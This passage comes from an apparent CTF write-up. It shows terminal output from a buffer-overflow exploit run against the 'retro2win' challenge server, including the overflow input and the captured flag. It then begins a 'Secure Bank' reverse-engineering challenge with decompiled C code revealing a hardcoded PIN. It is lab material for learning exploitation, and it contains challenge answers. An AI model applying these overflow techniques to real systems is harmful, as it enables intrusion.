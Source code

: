 ```bash
➜  challenge python3 exploit.py REMOTE
[+] Opening connection to retro2win.ctf.intigriti.io on port 1338: Done
[*] Switching to interactive mode

Checking cheatcode: AAAAAAAAAAAAAAAABBBBBBBB\\xb3        @!
CHEAT MODE ACTIVATED!
You now have access to secret developer tools...

FLAG: INTIGRITI{3v3ry_c7f_n33d5_50m3_50r7_0f_r372w1n}
[*] Got EOF while reading in interactive
```

## Reverse

#### Secure Bank

#### Description

> Can you crack the bank?
>

![image.png](image%201.png)

#### Solution

- **main()** function:

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  unsigned int v4; // [rsp+4h] [rbp-Ch] BYREF
  int v5; // [rsp+8h] [rbp-8h] BYREF
  unsigned int _2fa_code; // [rsp+Ch] [rbp-4h]

  banner(argc, argv, envp);
  login_message();
  printf("Enter superadmin PIN: ");
  __isoc99_scanf("%u", &v5);
  if ( v5 == 1337 )
  {
    _2fa_code = generate_2fa_code(1337LL);
    printf("Enter your 2FA code: ");
    __isoc99_scanf("%u", &v4);
    validate_2fa_code(v4, _2fa_code);
    return 0;
```